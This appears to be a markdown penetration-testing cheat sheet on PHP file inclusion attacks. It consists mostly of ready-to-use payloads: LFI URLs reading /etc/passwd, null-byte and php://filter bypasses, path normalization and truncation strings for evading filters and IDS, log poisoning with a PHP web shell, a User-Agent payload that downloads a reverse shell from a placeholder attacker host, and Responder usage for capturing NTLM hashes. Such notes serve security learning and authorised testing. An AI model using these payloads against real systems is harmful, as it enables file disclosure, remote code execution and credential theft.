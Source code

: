 ## Local file inclusion (LFI)

Basically occurs when a php web page take an other page to display in parameter.

***Example :***  
https://example.com/index.php?page=foo.php


#### Vulnerabilities
Vulnerabilities can be found using some parameter modifications

https://example.com/index.php?page=/etc/passwd
https://example.com/index.php?page=
https://example.com/index.php?page=./



### Filters

- Absolute path bypass
https://example.com/index.php?page=../../../../etc/passwd

- Extension bypass
https://example.com/index.php?page=../../../../etc/passwd%00

- Base64 bypass
php://filter/read=convert.base64-encode/resource=/etc/passwd
php://filter/read=convert.base64-encode/resource=./../../etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd  
https://example.com/index.php?page=php://filter/convert.base64-encode/resource=./../../etc/passwd  


# Tricks to bypass

```
bypass "../" with "..././"
bypass "../" with "....//"
```

## LFI2RCE / Log Poisonning

If the Apache or Nginx server is vulnerable to LFI inside the include function you could try to access to /var/log/apache2/access.log or /var/log/nginx/access.log, set inside the user agent or inside a GET parameter a php shell like `<?php system($_GET['c']); ?>` and include that file

## Remote file inclusion from log poisonning (RCE)
```php
User-Agent: <?php file_put_contents('/tmp/reverse_shell.php', file_get_contents('http://ATTAQUER_IP:ATTACKER_PORT/reverse_shell.php'))?>
```
Then go to /rev.php to start the reverse shell
In order to work, the php have to be in cleartext when it's read by the webpage  
e.g. if it appears in b64, nothing will work

# Remote file Inclusion

## Tools
- responder

### Responder

The `responder` utilisty can catch requests from many fake created servers such as `HTTP`  
This can sometimes leads to NTLM leaks

***Usage :***  
To start responder, you must select an interface 
```bash
responder -I INTERFACE_NAME
```

# PHP Path Normalization Attacks

In PHP, `.` and `/` are normalized when requesting for a file which can be used to bypass filters.
PHP functions can open files that `/bin/cat` can't because of the path normalization
**Main Usage :**
- Blacklist bypass on write functions (file editors, file writing, etc)
- Blacklist bypass on read functions (source disclosure, etc)
- Regular expressions and IDS/IPS signature evasion

**Example :**
```
../../../etc/passwd....... # Will be interpreted as /etc/passwd
../../../etc/passwd\.\.\.\ # Will be interpreted as /etc/passwd
./../../etc/passwd/./.././ # Will be interpreted as /etc/passwd
./../../etc/././passwd/./. # Will be interpreted as /etc/passwd
./../../etc/////passwd/./. # Will be interpreted as /etc/passwd
```

# PHP Path Truncation Attacks

- In PHP, the path is "`truncated`" at a certain point
	- Defined in MAXPATHLEN variable **(usually 4096bits)**
- It means that when including a filename longer than a certain length only the first part, the one that fits the buffer, will reach the real syscalls.
- In PHP filesystem functions are not binary safe a nullbyte can be used.
	- But functions like `addslashes()` can be use to solve the problem
	- `magic_quotes` is implicitly called on all GPC ans SERVER inputs (understand `addslashed()`
- **With Path Truncation Attacks, you are trying to overflow the suffix of a file inclusion**
- `/.` is completely wiped when looking in the filesystem

**Example** : Here `.php` is the suffix we want to bypass
```php
<?php 
// I'm a classic LFI (Local File Inclusion) vulnerabiltiy!
include("includes/".$_GET['file'].".php"); 
?>
```

**Payloads :**
```php
# With a
?file=a/../../../../../../../../../etc/passwd......[ADD MORE]....
?file=a/../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
?file=a/./.[ADD MORE]/etc/passwd
?file=a/../../../../[ADD MORE]../../../../../etc/passwd
# Without a
?file=../../../../../../../../../etc/passwd......[ADD MORE]....
?file=../../../../../../../../../etc/passwd/././.[ADD MORE]/././.
?file=./.[ADD MORE]/etc/passwd
?file=../../../../[ADD MORE]../../../../../etc/passwd
```
**Note** Relative paths can start with `a` in order to make the length odd, without the `a`, the request will be even
- Playing on `odd` and `even` requests is important because, otherwise, `/.` will not be fully normalized for example


# Sources
- https://book.hacktricks.xyz/pentesting-web/file-inclusion
- https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20PHP%20path%20truncation.html?_gl=1*1opjpib*_ga*MTYxMDQ3MzgyMC4xNzE4MzU2NTIx*_ga_SRYSKX09J7*MTcxOTUxMzM0NS4yNy4xLjE3MTk1MTQ2MjkuMC4wLjA.